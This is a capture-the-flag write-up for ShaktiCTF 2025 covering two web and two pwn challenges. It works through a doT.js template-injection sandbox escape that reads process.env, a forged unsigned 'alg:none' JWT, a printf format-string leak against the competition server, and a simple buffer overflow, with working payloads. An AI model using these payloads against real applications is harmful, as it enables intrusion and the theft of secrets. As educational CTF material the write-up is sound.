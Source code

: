 ```yaml
---
title: "ShaktiCTF | 2025 | Writeups"
description: "A Jeopardy style online Capture The Flag competition to upbring and promote women in the industry."
pubDate: "2025-07-30"
tags: ["pwn", "web", "shaktictf"]
---
```


**Templateception — Web**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*jec9C57A3TBJI4YsjkGrkg.png)

Source Code Analysis
--------------------

We’re given the Node.js backend which does the following:

*   Accepts a filename, template (doT), and config via POST to `/upload`.
*   Saves the template, and renders it later at `/render/:file`.
*   Passes `{ name: "CTF Player" }` as the rendering context for templates.
*   Also renders the flag using EJS like this:
*   `res.render('rendered', { output, flag })`

The rendered HTML includes:

```
<pre><%= output %></pre>  
<script>  
  var FLAG = "<%= flag %>";  
</script>
```

So, the flag **isn’t rendered directly** — it’s only accessible as a JavaScript variable called `FLAG`.

The templating engine used is `doT.js`, which supports JavaScript execution inside templates.  
We can inject arbitrary JavaScript by using this pattern:

```
{{=this.constructor.constructor("/* JS here */")()}}
```

This effectively breaks the sandbox and gives us access to Node internals, including environment variables!

To read the environment variable where the flag is stored, we submit the following as the template:

```
{{=this.constructor.constructor("return process.env")().FLAG}}
```

**Config:**

```
{}
```

**Filename:** `exploit.dot` (any name works)

Visiting `/render/exploit.dot` rendered:

```
shaktictf{***********}
```

The flag was successfully read from the server’s environment using template injection!

---

**Hooman — Web**
----

![](https://miro.medium.com/v2/resize:fit:638/format:webp/1*eGVG25dEk90_z4EtVrrbig.png)

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ctafm64Hu8dfagcexTYo0Q.png)

We were asked to “prove” we’re a hooman to access `/hooman`, which reveals the flag. The server gives us a JWT after login, but it always has:

```
{  
  "are_you_hooman": false  
}
```

And the `/hooman` route only lets us in if:

```
"are_you_hooman": true
```

In the backend, JWTs are decoded with **`verify_signature=False**`**:

```
jwt.decode(token, key=None, options={"verify_signature": False})
```

This means the server accepts **any token**, even unsigned ones.

We forged our own JWT:

```
Header:  {"alg": "none", "typ": "JWT"}  
Payload: {"username": "admin", "are_you_hooman": true}
```

Final token:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXJlX3lvdV9ob29tYW4iOnRydWV9.
```

➡️ Set it as a cookie named `token`.

Visiting `/hooman` with the forged token reveals:

> shaktictf{<real\_flag>}

---

**Secret Mission — Pwn**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*yWlOGJN8lc13tyokjI3wUQ.png)

> _Welcome to the Armed Detective Agency — the most famous detective agency in Yokohama!  
> A chest full of ability crystals has been lost somewhere in this binary.  
> Can you help us find it?_

We’re provided with an ELF binary: `mission`  
Running it connects us to a storyline, and prompts us with two questions:

*   Do you accept the mission? (Y/n)
*   What’s your name?

If we say “Y”, and give any input as a name(eg: h4ch3r)—it displays: Looking forward to working with you h4ch3r

Initial Recon:
--------------

```
$ file mission  
ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped  
  
$ checksec --file=mission  
RELRO           STACK CANARY      NX            PIE       
Full RELRO      Canary found      NX enabled    PIE enabled
```

The binary has all major protections:  
PIE: enabled  
NX: enabled  
Canary: found

This points toward a **stack-based buffer overflow** or similar.

Fuzzing input:
--------------

```
$ python3 -c "print('Y\n' + 'A'*200)" | ./mission
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

Classic stack overflow confirmed.  
But because there’s a **stack canary**, overflowing won’t be trivial.

Let’s try a format string vulnerability instead:

```
$ python3 -c "print('Y\n' + '%p.'*20)" | ./mission  
...  
Looking forward to working with you 0x7ffe19f4e620.(nil).(nil).0xa....
```

It **echoes back** our name using `printf(name)`, NOT `printf("%s", name)`, which makes it vulnerable!

**Try it on the actual server:**

```
$ python3 -c "print('Y\n' + '%p.'*30)" | nc 43.205.113.100 8576
```

Output (trimmed):

```
Looking forward to working with you ...  
0x746369746b616873.0x58655f3368747b66.0x5f64337463407274.0x656974696c696240....
```

Python script to decode the hex values:

```
leaked = [  
    0x746369746b616873,  
    0x58655f3368747b66,  
    0x5f64337463407274,  
    0x656974696c696240,  
    0x6873316e40765f35,  
    0x3368745f7475625f,  
    0x33725f67406c665f,  
    0x7d736e31406d  
]  
  
s = b''.join(p.to_bytes(8, 'little') for p in leaked)  
print(s.decode(errors="ignore"))
```

Running this python code renders the flag.

---

**Let the TV Buffer — Pwn**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*pIh8nh1nL05WpZ2Kk0skow.png)

> _The TV usually keeps buffering. It isn’t doing that now for some reason. I dunno why.  
> I need to show my cool TV fixing skills for the upcoming science fair!  
> I wonder what I can do to put it back to how it originally was…_

Running the binary locally:

```
./let_the_tv_buffer
```

Gives us:

```
Reply >>
```

After entering a long input:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The binary responded:

```
The TV is back to buffering! Thanks!  
...wait. It is showing some sorta secret code.  
shaktictf{REDACTED}
```

---

You can check out more of my work here:

*   🔗 **GitHub:** [github.com/Bl0ss0mX5](https://github.com/Bl0ss0mX5)
*   🔗 **Medium:** [medium.com/@bl0ss0mx5](https://medium.com/@bl0ss0mx5)